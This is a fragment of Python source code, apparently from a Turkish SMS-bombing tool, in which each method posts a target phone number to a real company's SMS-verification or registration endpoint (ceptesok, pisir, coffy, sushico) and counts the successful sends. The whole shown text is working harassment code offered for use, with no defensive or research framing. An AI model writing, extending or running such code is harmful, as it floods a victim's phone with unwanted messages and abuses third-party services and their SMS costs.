     #ceptesok
    def ceptesok(self):
      try:
        url = "https://api.ceptesok.com/api/users/sendsms"
        payload = {
            "mobile_number.phone": f"{self.phone}",
            "token_type": "register_token"
        }
        r = requests.post(url=url, json=payload, timeout=5)

        if r.status_code == 200:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> ceptesok")
            self.adet += 1
        else:
            raise
      except:
         print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> ceptesok")

    #pisir
    def pisir(self):
      try:
        url = "https://api.pisir.com/v1/login/"
        payload = {"msisdn": f"90{self.phone}"}
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["ok"]
        if r1 == "1":
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> pisir")
            self.adet += 1
        else:
            raise
      except:
          print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> pisir")

    #coffy
    def coffy(self):
      try:
        url = "https://prod-api-mobile.coffy.com.tr/Account/Account/SendVerificationCode"
        payload = {"phonenumber": f"+90{self.phone}"}
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["success"]
        if r1 == True:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> coffy")
            self.adet += 1
        else:
            raise
      except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> coffy")

    #sushico
    def sushico(self):
      try:
        url = "https://api.sushico.com.tr/tr/sendActivation"
        payload = {"phone": f"+90{self.phone}", "location": 1, "locale": "tr"}
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["err"]
        if r1 == 0:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> sushico")
            self.adet += 1
        else:
            raise
      except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> sushico")
